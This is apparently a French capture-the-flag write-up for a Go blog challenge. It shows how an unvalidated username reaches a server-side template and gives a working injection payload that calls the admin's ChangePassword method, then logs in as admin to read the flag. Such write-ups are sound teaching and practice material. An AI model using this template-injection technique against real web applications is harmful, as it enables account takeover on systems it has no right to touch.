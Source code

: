 # My sky blog

### Information
- http://REDACTED
- src/ (Le code source en go)


```go
var randomSentences = []string{
	"Hey, %s; there are %d posts right now !",
	"What's up %s ? We're at %d ! Aiming for the stars !",
	"Want a coffee %s ? Ofc there's %d posts in here !",
	"Hello there, General %s, have you seen ? There's %d posts !",
}
```

Cette portion est vulnerable au SSTI (Server Side Tempalte Injectoin)

On peut se créé un utilisateur et son nom n'est pas validé

```go
func register(c echo.Context) error {
	s := c.Get("session").(*Session)

	templatePath := "templates/register.html"
	tpl := template.Must(template.ParseFiles(templatePath))

	if c.Request().Method == "POST" {
		username := c.FormValue("username")
		password := c.FormValue("password")

		user := &User{
			Username: username,
		}

		user.ChangePassword(password)

		for _, u := range s.users {
			if u.Username == user.Username {
				s.HasError = true
				s.Error = "Username already taken"
				return tpl.Execute(c.Response().Writer, s)
			}
		}

		s.users = append(s.users, user)

		logrus.Infof("Registered user %s on sessions %s", user.Username, s.id)

		return c.Redirect(302, "/login")
	} else {
		return tpl.Execute(c.Response().Writer, s)
	}
}
```

Le URI `/flag` contient le flag cependant:

```go
func flag(c echo.Context) error {
	s := c.Get("session").(*Session)

	if s.User == nil {
		return c.Redirect(http.StatusFound, "/login")
	}

	if !s.User.isAdmin {
		return c.String(http.StatusForbidden, "You are not an admin")
	}

	def := "4T${...}"
	flag := os.Getenv("FLAG")
	if flag != "" {
		def = flag
	}

	return c.String(http.StatusOK, def)
}
```

Nous devons être admin! 

Dernier élément :
```go
func CreateEmptySession() *Session {
	admin := &User{
		isAdmin:  true,
		Username: "admin",
	}

	// Get a random password
	randomPassword := uuid.New().String()

	admin.ChangePassword(randomPassword)

	id := uuid.New().String()

	return &Session{
		users: []*User{
			admin,
		},
		id: id,

		User: nil,
		Posts: []*Post{
			{
				Author:    admin,
				Title:     "Welcome to my beautiful Sky Blog!",
				Body:      "I welcome you to my blog, where I'll post about my adventures in the sky !",
				UpdatedAt: time.Date(2024, 5, 1, 12, 54, 30, 20, time.UTC),
			},
		},
		NbPosts: 1,
	}
}
```

Un post avec l'utilisateur `admin` est toujours présent

Si nous faisons un lien avec les `struct`
```go
type Post struct {
	Author *User # <------ Ceci est publique!
	Title  string
	Body   string

	UpdatedAt time.Time
}

type User struct {
	isAdmin  bool # <--------- privé :(
	Username string
	Password string
}
```

Par contre nous pouvons faire appel à la méthode change password!
``` go
func (u *User) ChangePassword(password string) bool {
	logrus.Infof("Changing password for user %s", u.Username)

	h := sha256.New()
	h.Write([]byte(password))

	u.Password = hex.EncodeToString(h.Sum(nil))

	return true
}
```

Je teste pour du SSTI injection en créant un utilisateur `{{.}}` 

Cela fonctionne! Simplement créé un nouvel utilisateur: `{{range .Posts}}{{.Author.ChangePassword "platypusJovial"}}{{end}}`

Une fois authentifier, la méthode a été appeler
- logout
- login avec admin:platypusJovial


```4T${w417_H0w_d1D_Y0u_d0_7h12}```